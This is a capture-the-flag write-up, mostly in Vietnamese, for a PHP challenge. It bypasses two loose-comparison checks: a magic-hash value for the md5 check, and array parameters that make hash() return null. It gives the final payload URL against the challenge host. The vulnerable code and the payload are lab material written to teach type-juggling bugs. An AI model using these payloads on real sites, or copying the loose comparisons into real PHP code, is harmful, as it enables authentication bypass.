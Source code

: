 # Solution

Source code:

```php
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

Để bypass đoạn check `$str1 == md5($str1)` mình dùng [php magic hash](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)

=> `$str1=0e1137126905`


Cuối cùng để bypass đoạn check thứ 2:

```php
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
```

Chỉ cần truyền vào 2 mảng khác nhau là xong:
final payload:
`http://103.245.249.76:49155/?0=0e1137126905&1[]=bla&2[]=blabla`
